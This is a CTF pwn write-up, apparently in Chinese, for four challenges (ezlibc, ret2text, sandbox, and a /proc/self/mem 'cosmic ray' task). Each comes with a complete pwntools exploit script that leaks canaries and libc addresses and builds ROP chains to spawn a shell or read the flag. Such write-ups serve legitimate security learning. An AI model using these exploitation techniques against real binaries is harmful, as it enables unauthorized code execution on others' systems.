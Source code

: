 CrazyCat-pwn
![[Pasted image 20250121140940.png]]
~~做了两题就去春秋杯了，结果春秋杯爆零，还不如把这个做完QAQ。~~
# ezlibc
![[Pasted image 20250121141259.png]]
一道简单的`ret2libc`的题目，开启`canary`，得先想办法泄漏`canary`。
![[Pasted image 20250121141418.png]]
![[Pasted image 20250121141711.png]]
虽然有`printf`函数，但不能直接泄漏地址，但`printf`会一直输出直到`\x00`，那么把`canary`前填充满`deadbeef`就能泄漏`canary`。
泄漏`canary`后在构造ROP泄漏地址，获取`libc`基址并重新调用`read`函数进行第三次溢出来获取`shell`。
exp:
```python
from pwn import *
# from LibcSearcher import LibcSearcher
from wstube import websocket

context.log_level = 'debug'
local = True
if local:
	p = process('./ezlibc')
	pwnlib.gdb.attach(p, 'b bug')
else:
	p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471c6-5bcb-772c-b85c-78d6ad4f3ed1')

elf = ELF('./ezlibc')

payload = b'a' * (0x29)
p.send(payload)
p.recvuntil(b'a' * 0x29)
canary = u64(b'\x00' + p.recv(7))
log.success('canary: ' + hex(canary))

rdi = 0x400843
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
bug = 0x4006e7
payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(bug)
p.recvuntil(b'closer to the key')
p.send(payload)

p.recvuntil(b'keep trying\n')
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))

'''libc = LibcSearcher('puts', puts_addr)
base = puts_addr - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')'''

ret = 0x40059e
log.success('puts_addr: ' + hex(puts_addr))
base = puts_addr - 0x80970
system = base + 0x4f420
binsh = base + 0x1b3d88

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
p.send(payload)
p.sendafter(b'closer to the key', b'a')

p.interactive()
```
shell:
![[Pasted image 20250121160630.png]]
# ret2text
简单的`ret2text`类型题目
找到溢出点，`backdoors`，构造`payload`即可。
exp:
```python
from pwn import *
# from LibcSearcher import LibcSearcher
from wstube import websocket

context.log_level = 'debug'
local = False
if local:
	p = process('./1')
	pwnlib.gdb.attach(p, 'b main')
else:
	p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')
  
backdoor = 0x40115a
payload = b'a' * (0xa + 8) + p64(backdoor)
p.send(payload)
p.interactive()
```
shell:
![[Pasted image 20250121161101.png]]
# sandbox
一道简单的`orw`类型题目。
`seccomp`后可以看到只禁用了`execve`。
![[Pasted image 20250121161542.png]]
可以构造最普通的`orw`。
![[Pasted image 20250121161640.png]]
![[Pasted image 20250121161654.png]]
可以看见开启了`canary`，有栈溢出和格式化字符串漏洞，那么先用格式化字符串漏洞泄漏`canary`和`libc`的基址，然后构造`ROP`类型的`orw`即可泄漏`./flag`的数据。
exp:
```python
from pwn import *
# from LibcSearcher import LibcSearcher
from wstube import websocket

context.log_level = 'debug'
local = True
if local:
	p = process('./attachment')
	pwnlib.gdb.attach(p, 'b func')
else:
	# p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')
	p = remote('xlctf.huhstsec.top', 45537)

elf = ELF('./attachment')
libc = ELF('./libc.so.6')
log.success('__libc_start_main: ' + hex(libc.symbols['__libc_start_main']))
log.success('read: ' + hex(libc.symbols['read']))
log.success('open: ' + hex(libc.symbols['open']))
log.success('write: ' + hex(libc.symbols['write']))
# libc = ELF('./libc6_2.35-0ubuntu3_amd64.so')

# payload1 = '%13$p-%19$p'
payload1 = '%13$p-%39$p'

p.recvuntil(b'Do you know orw?')
p.sendline(payload1)
p.recvuntil(b'\n')
p.recvuntil(b'0x')
canary = int(p.recvuntil('-', drop=True), 16)
p.recvuntil(b'0x')
# base = int(p.recvuntil(b'\n'), 16) - libc.symbols['__libc_start_main'] - 120
main_addr = int(p.recv(12), 16) - 128
base = main_addr - libc.symbols['__libc_start_main']
log.success('main:' + hex(main_addr))
log.success('canary: ' + hex(canary))
log.success('base: ' + hex(base))

bss = elf.bss() + 0x100
rdi = 0x4014c3
rsi_r15 = 0x4014c1
ret = 0x40101a
rdx_rbx = base + 0x90529
  
read_addr = base + libc.symbols['read']
open_addr = base + libc.symbols['open']
write_addr = base + libc.symbols['write']

payload2 = b'a' * (0x38) + p64(canary)

payload2 += p64(ret) + p64(rsi_r15) + p64(bss) + p64(0)
payload2 += p64(read_addr)

payload2 += p64(rdi) + p64(bss)
payload2 += p64(rsi_r15) + p64(0) + p64(0)
payload2 += p64(rdx_rbx) + p64(0) + p64(0)
payload2 += p64(open_addr)

payload2 += p64(rdi) + p64(3)
payload2 += p64(rsi_r15) + p64(bss) + p64(0)
payload2 += p64(rdx_rbx) + p64(0x100) + p64(0)
payload2 += p64(read_addr)
  
payload2 += p64(rdi) + p64(1)
payload2 += p64(rsi_r15) + p64(bss) + p64(0)
payload2 += p64(rdx_rbx) + p64(0x100) + p64(1)
payload2 += p64(write_addr)  

p.recvuntil(b'can you did it?')
p.send(payload2)
pause()
p.send(b'./flag\x00')

p.interactive()
```
flag:
![[Pasted image 20250121163812.png]]

# 宇宙射线
程序里给了`/proc/self/mem`，可以直接修改代码。
![[Pasted image 20250121165930.png]]
首先按照`0x`的格式输入要修改的地址。
![[Pasted image 20250121170028.png]]
然后在此处输入一个字节，便可以修改为输入的字节。
![[Pasted image 20250121170126.png]]
例如这里我们选择的是`0x40151f`，并将此处修改为`0x00`。
![[Pasted image 20250121170219.png]]
可以看到修改成功。
![[Pasted image 20250121170606.png]]
在这里可以看到用`syscall`调用了系统调用号为`3c`的程序，将``3c``修改就可以调用其他程序。将其修改为`0`就可以调用`read`函数。
![[Pasted image 20250121170908.png]]
可以看到成功调用了`read`函数，且拥有栈溢出漏洞。
`ROPgadget`查询后发现只有`pop rbp`可用，但程序中有一个`key`函数可以将`rbp`的内容放入`rdi`中。
之后便是简单的`ret2libc`。
exp：
```python
from pwn import *
# from LibcSearcher import LibcSearcher
from wstube import websocket

context.log_level = 'debug'
local = False
if local:
	p = process('./pwn')
	pwnlib.gdb.attach(p, 'b *.x40155f')
else:
	# p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')
	p = remote('101.43.67.25', 8090)

elf = ELF('./pwn')
libc = ELF('./libc.so.6')

p.sendlineafter(b'cosmic rays:\n', b'0x401562')
p.sendlineafter(b'Enter the data sent:\n', b'0x0')

payload = b'a' * (0x12)

ret = 0x40101a
rbp = 0x40127d
key = 0x40129e
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
read_addr = 0x401553
main = 0x401309

payload += p64(ret) + p64(rbp) + p64(puts_got) + p64(key) + p64(ret) + p64(puts_plt)
payload += p64(main)

p.send(payload)
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
print('puts_addr:', hex(puts_addr))

base = puts_addr - libc.sym['puts']
system_addr = base + libc.sym['system']
bin_sh = base + next(libc.search(b'/bin/sh'))

p.sendlineafter(b'cosmic rays:\n', b'0x401562')
p.sendlineafter(b'Enter the data sent:\n', b'0x0')

payload = b'a' * (0x12 + 0x8)
payload += p64(ret) + p64(rbp) + p64(bin_sh) + p64(key) + p64(ret) + p64(system_addr)

p.send(payload)

p.interactive()
```
shell:
![[Pasted image 20250122094222.png]]
